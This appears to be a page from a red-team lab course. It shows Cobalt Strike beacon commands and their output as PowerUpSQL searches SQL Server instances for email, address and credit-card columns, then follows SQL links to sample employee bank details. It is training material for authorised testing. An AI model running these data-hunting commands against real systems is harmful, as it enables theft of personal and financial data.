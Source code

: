 PowerUpSQL provides various cmdlets designed for data searching and extraction.  One such cmdlet is `Get-SQLColumnSampleDataThreaded`, which can search one or more instances for databases that contain particular keywords in the column names.
```
beacon> powershell Get-SQLInstanceDomain | Get-SQLConnectionTest | ? { $_.Status -eq "Accessible" } | Get-SQLColumnSampleDataThreaded -Keywords "email,address,credit,card" -SampleSize 5 | select instance, database, column, sample | ft -autosize

Instance                     Database Column                   Sample                  
--------                     -------- ------                   ------                  
sql-2.dev.cyberbotic.io,1433 master   email                    ritzhaki0@gov.uk        
sql-2.dev.cyberbotic.io,1433 master   email                    ldureden1@angelfire.com 
sql-2.dev.cyberbotic.io,1433 master   email                    gfaussett2@quantcast.com
sql-2.dev.cyberbotic.io,1433 master   email                    bcrumb3@cpanel.net      
sql-2.dev.cyberbotic.io,1433 master   email                    ldirkin4@123-reg.co.uk  
sql-2.dev.cyberbotic.io,1433 master   address                  5575 8th Plaza          
sql-2.dev.cyberbotic.io,1433 master   address                  759 Schmedeman Avenue   
sql-2.dev.cyberbotic.io,1433 master   address                  077 Menomonie Parkway   
sql-2.dev.cyberbotic.io,1433 master   address                  99 Gerald Street        
sql-2.dev.cyberbotic.io,1433 master   address                  150 Raven Court         
sql-2.dev.cyberbotic.io,1433 master   credit_card              374288069616869         
sql-2.dev.cyberbotic.io,1433 master   credit_card              374288681554928         
sql-2.dev.cyberbotic.io,1433 master   credit_card              374283595554411         
sql-2.dev.cyberbotic.io,1433 master   credit_card              374283532455854         
sql-2.dev.cyberbotic.io,1433 master   credit_card              374288154929482         
```
  

This can only search the instances you have direct access to; it won't traverse any SQL links. To search over the links use `Get-SQLQuery`.
```
 beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select * from information_schema.tables')"

TABLE_CATALOG TABLE_SCHEMA TABLE_NAME            TABLE_TYPE
------------- ------------ ----------            ----------
master        dbo          spt_fallback_db       BASE TABLE
master        dbo          spt_fallback_dev      BASE TABLE
master        dbo          spt_fallback_usg      BASE TABLE
master        dbo          employees             BASE TABLE
master        dbo          spt_values            VIEW      
master        dbo          spt_monitor           BASE TABLE
master        dbo          MSreplication_options BASE TABLE
```
  

Note the "employees" table.  Next, list its columns.
```
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select column_name from master.information_schema.columns where table_name=''employees''')"

column_name   
-----------   
id            
first_name    
last_name     
gender        
address       
post_code     
sort_code     
account_number
```
  

Then finally, take a data sample.
```
beacon> powershell Get-SQLQuery -Instance "sql-2.dev.cyberbotic.io,1433" -Query "select * from openquery(""sql-1.cyberbotic.io"", 'select top 5 first_name,gender,sort_code from master.dbo.employees')"

first_name gender sort_code
---------- ------ ---------
Juliann    Female 09-46-87 
Rhodie     Female 89-74-73 
Calypso    Female 77-33-04 
Burt       Male   36-84-98 
Gayelord   Male   28-16-45 
```
  

If this is real data, don't extract multiple columns that can be correlated together.  As in this example, take a sample of a column that doesn't really mean anything in isolation.  To simulate data exfiltration of large dataset, have a look at [Egress Assess](https://github.com/FortyNorthSecurity/Egress-Assess).